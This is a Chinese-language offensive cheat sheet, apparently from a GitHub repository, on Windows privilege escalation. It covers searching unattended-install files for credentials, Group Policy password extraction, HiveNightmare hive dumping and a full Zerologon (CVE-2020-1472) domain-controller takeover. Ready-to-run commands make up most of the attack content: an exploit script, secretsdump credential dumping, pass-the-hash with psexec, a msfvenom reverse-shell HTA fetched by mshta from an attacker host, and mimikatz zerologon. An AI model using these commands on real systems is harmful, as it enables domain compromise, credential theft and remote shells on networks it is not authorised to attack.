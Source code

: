 # 利用用户凭据提权

#### 枚举Unattended凭据

原理：无人值守安装Unattended允许应用程序在不需要管理员关注下自动安装，无人值守安装会在系统中残留一些配置问题,可以通过枚举上述配置文件检索一些关键字获取管理员权限

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\System32\sysprep.inf
c:\windows\System32\sysprep\sysprep.xml
c:\unattend.xml
c:\windows\Panther\Unattend.xml
c:\windows\Panther\Unattended.xml
c:\windows\Panther\Unattend\Unattended.xml
c:\windows\Panther\Unattend\Unattend.xml
c:\windows\System32\Sysprep\unattend.xml
c:\windows\System32\Sysprep\Panther\unattend.xml
```

#### 枚举组策略凭据

支持系统：Windows Server 2008以上系统 原理：在新建一个组策略后，域控制器会自动在SYSVOL共享目录生成一个XML文件，该文件名为Groups.XML， 保存了组策略更新后的密码，在2012年微软公开了该文件AES 256算法加密的私钥

```
msf6 : post/windows/gather/credentials/gpp
```

#### HiveNightmare

原理：自Windows 10 version 1809以来全部版本包括Windows11，由于ACL管理宽松，导致任何标准用户都可以从系统卷影响副本中读取包括SAM、SYSTEM、SECURITY在内的多个系统文件

检测Poc，判断是否可以以标准用户执行以下命令。若输出BUILTIN\Users:(I)(RX)，则存在漏洞

```
icacls C:\Windows\System32\config\SAM
```

利用：

https://github.com/GossiTheDog/HiveNightmare/raw/master/Release/HiveNightmare.exe

导出后的三个文件可以用`Impacket Secretsdump.py`导出用户Hash

```
python3 secretsdump.py -sam SAM-xxx -system SYSTEM-xxxx -security SECURITY-xxxxx
```

#### Zerologon域内提权(CVE-2020-1472)

原理：Netlogon远程协议的一个特权提升漏洞，可以在不提供任何凭据的情况下通过身份验证，并实现域内提权，常见的利用方式是调用`Netlogon`中的RPC函数`NetrServerPasswordSet2`来重置域控密码。注意重置的是域控机器账户的密码，该密码由系统随机组成

重置密码导致域控脱域原因：域控`NTDS.dit`中存储的密码和域控本地注册表中存储的密码不一致

攻击流程：`执行poc将域控制器机器密码重置为空->利用脚本空密码连接上域控并导出SAM—>哈希传递攻击，获取系统SYSTEM权限->恢复域控密码`

* 执行poc将域控制器机器密码重置为空

```
python3 cve-2020-1472-exploit.py DC-1 10.10.10.11
```

* `impacket secretsdump`密码连接上域控并导出SAM(域名\主机名$@ip地址)

```
python3 secretsdump.py hack-my.com/DC-1\$@10.10.10.11 -just-dc-user "hack-my\administrator" -no-pass
```

* `impacket`哈希传递攻击

```
python3 psexec.py hack-my.com/administrator@10.10.10.11 -hashes xxx:xxxx
```

* `cmd`远程加载`hta`上线`meterpreter`

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.26 lport=9876 -f hta-psh -o 111.hta
python3 -m http.server
mshta http://10.10.10.26:8000/111.hta
```

* 恢复域控密码：导出HKLM\SYTEM、HKLM\SAM、HKLM\SECURITY 册表

```
reg save HKLM\SYSTEM system-re.save
reg save HKLM\SAM sam-re.save
reg save HKLM\SECURITY security-re.save 
```

* `secretsdump`导出重置前的机器密码

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL ($MACHINE.ACC:plain_password_hex)
```

* cve-2020-1472-exploit restorrepassword.py恢复域控机器密

```
python3 restorrepassword.py hack-my.com/DC-1@DC-1 -target-ip 10.10.10.11 -hexpass xxxxxxx
```

攻击流程2(mimikatz)：

* mimikatz lsadump::zerologon模块重置密码

```
mimikatz.exe "lsadump::zerologon /target:10.10.10.11 /ntlm /null /account:DC-1$ /exploit" exit
```

mimikatz postzerologon恢复域控密码

```
mimikatz.exe "lsadump::postzerologon /target:10.10.10.11 /account:DC-1$" 
```
